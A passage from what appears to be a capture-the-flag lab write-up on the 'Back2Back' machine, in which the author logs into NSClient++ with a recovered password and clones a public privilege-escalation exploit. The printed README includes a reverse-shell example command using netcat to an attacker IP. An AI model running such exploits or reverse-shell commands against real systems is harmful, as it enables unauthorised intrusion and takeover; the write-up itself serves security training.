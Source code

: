 So the tunnel is working and the logon page of NSClient++ is shown to me. Now I can try to logon with the password found in the nsclient.ini file.
![Image](/assets/img/WriteUp/ITSL/Back2Back/ITSL-Back2Back-6.png){: width="700" height="400" }

After entering the password I was logged on to the system as admin. I browsed through the website and was thinking that there should be an exploit available which has automated the vulnerability. I searched on Google for “[NSClient ++ exploit github](https://github.com/AndyFeiLi/nsclient-0.5.2.35-RCE-exploit)” and I have found a few exploits. I decided to clone the exploit from AndyFeili after reading the exploit on his Github page.




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ba
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ git clone https://github.com/AndyFeiLi/nsclient-0.5.2.35-RCE-exploit.git
Cloning into 'nsclient-0.5.2.35-RCE-exploit'...
remote: Enumerating objects: 15, done.
remote: Counting objects: 100% (15/15), done.
remote: Compressing objects: 100% (14/14), done.
remote: Total 15 (delta 2), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (15/15), done.
Resolving deltas: 100% (2/2), done.
                                                                                                                    
┌──(eMVee@kali)-[~/Documents/Back2Back]
└─$ cd nsclient-0.5.2.35-RCE-exploit 
                                                                                                                    
┌──(eMVee@kali)-[~/Documents/Back2Back/nsclient-0.5.2.35-RCE-exploit]
└─$ ls
exploit.py  README.md
                                                                                                                    
┌──(eMVee@kali)-[~/Documents/Back2Back/nsclient-0.5.2.35-RCE-exploit]
└─$ cat README.md                              
# NSClient++ 0.5.2.35 - Privilege Escalation

https://www.exploit-db.com/exploits/46802

EDB-ID:46802

https://www.youtube.com/watch?v=LPN6y3xLesI

example usage:

```
python3 exploit.py -t 127.0.0.1 -P 8443 -p ew2x6SsGTxjRwXOT -c 'nc -nv 10.10.14.3 1443 -e cmd.exe'
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~